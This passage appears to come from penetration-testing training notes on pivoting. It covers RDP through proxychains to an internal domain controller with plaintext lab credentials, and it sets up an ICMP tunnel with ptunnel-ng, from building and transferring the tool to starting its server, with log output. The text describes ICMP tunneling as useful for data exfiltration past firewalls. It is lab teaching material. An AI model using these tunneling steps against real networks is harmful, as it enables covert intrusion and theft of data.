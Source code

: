 If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

```bash
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

## ICMP Tunneling with SOCKS

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. ICMP tunneling would only work when ping responses are permitted within a firewalled network. When a host within a firewalled network is allowed to ping an external server, it can encapsulate its traffic within the ping echo request and send it to an external server. The external server can validate this traffic and send an appropriate response, which is extremely useful for data exfiltration and creating pivot tunnels to an external server.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.

### Setting Up & Using ptunnel-ng

#### Cloning Ptunnel-ng

```bash
git clone https://github.com/utoni/ptunnel-ng.git
```

#### Building Ptunnel-ng with Autogen.sh

```bash
sudo ./autogen.sh 
```

#### Alternative approach of building a static binary

```bash
sudo apt install automake autoconf -y
cd ptunnel-ng/
sed -i '$s/.*/LDFLAGS=-static "${NEW_WD}\/configure" --enable-static $@ \&\& make clean \&\& make -j${BUILDJOBS:-4} all/' autogen.sh
./autogen.sh
```

#### Transferring Ptunnel-ng to the Pivot Host

```bash
scp -r ptunnel-ng ubuntu@10.129.202.64:~/
```

#### Starting the ptunnel-ng Server on the Target Host

```bash
ubuntu@WEB01:~/ptunnel-ng/src$ sudo ./ptunnel-ng -r10.129.202.64 -R22

[sudo] password for ubuntu: 
./ptunnel-ng: /lib/x86_64-linux-gnu/libselinux.so.1: no version information available (required by ./ptunnel-ng)
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
```


[inf]: Relaying packets from incoming TCP streams.
[inf]: Starting new session to 10.129.202.64:22 with ID 20199
[inf]: Received session close from remote peer.
[inf]: I/O:   0.00/  0.00 mb ICMP I/O/R:      248/      22/       0 Loss:  0.0%